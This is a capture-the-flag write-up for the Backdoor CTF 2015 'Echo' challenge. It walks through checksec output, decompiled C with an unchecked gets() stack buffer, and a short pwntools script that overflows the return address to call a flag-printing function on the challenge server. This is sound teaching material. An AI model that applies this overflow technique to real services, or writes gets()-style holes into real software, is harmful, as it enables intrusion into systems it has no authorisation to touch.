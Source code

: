 # Backdoor CTF 2015: Echo

**Category:** Pwnable
**Points:** 100
**Description:** 

> Little Suzie started learning C. She created a simple program that echo's back whatever you input. 
> [Here](challenge/echo) is the binary file. 
> The vampire came across this service on the internet. nc hack.bckdr.in 8002. Reports say he found a flag. See if you can get it.

## Write-up

Take a peek at the binary

>```bash
> file echo
> echo: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x465c87a1ebfcdf7b01bfa8daed8f376d2bae9dfe, not stripped
>```

What does checksec say?

>```bash
> gdb-peda$ checksec
> CANARY    : disabled
> FORTIFY   : disabled
> NX        : ENABLED
> PIE       : disabled
> RELRO     : Partial
>```

A straight-forward non-stripped 32-bit ELF with non-exec stack. Let's fire up our decompiler and get the interesting functions out of it:

>```c
>int __cdecl main(int argc, const char **argv, const char **envp)
>{
>  test();
>  return 0;
>}
>
>int test()
>{
>  char s; // [sp+1Eh] [bp-3Ah]@1
>
>  gets(&s);
>  sleep(1u);
>  return fprintf(_bss_start, "ECHO: %s\n", &s);
>}
>
>signed int sample()
>{
>  signed int result; // eax@2
>  char s; // [sp+18h] [bp-70h]@4
>  FILE *stream; // [sp+7Ch] [bp-Ch]@1
>
>  stream = fopen("flag.txt", "r");
>  if ( stream )
>  {
>    while ( fgets(&s, 100, stream) )
>      fputs(&s, _bss_start);
>    fclose(stream);
>    result = 0;
>  }
>  else
>  {
>    result = 1;
>  }
>  return result;
>}
>```

Ok, that looks good. A simple gets() stack overflow (of a buffer of length 58 bytes) and a function to print our flag. [Simply](solution/echosploit.py) overflow our buffer s into the EIP to point it to sample() to get the flag:

>```python
>#!/usr/bin/python
>#
># Backdoor CTF 2015
># ECHO (PWN/100)
>#
># @a: Smoke Leet Everyday
># @u: https://github.com/smokeleeteveryday
>#
>
>from pwn import *
>from struct import pack, unpack
>
>host = 'hack.bckdr.in'
>h = remote(host, 8002, timeout = None)
>buf = "A" * 62 + pack('<I', 0x0804857D) # Address of sample()
>h.send(buf + "\n")
>print h.recvall()
>
>h.close()
>```

And we got the flag:

>```bash
>$ python echosploit.py 
> [+] Opening connection to hack.bckdr.in on port 8002: Done
> [+] Recieving all data: Done (138B)
> [*] Closed connection to hack.bckdr.in port 8002
> ECHO: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}\x85\x0
> {flag removed upon request of backdoorCTF admins ;)}
>```
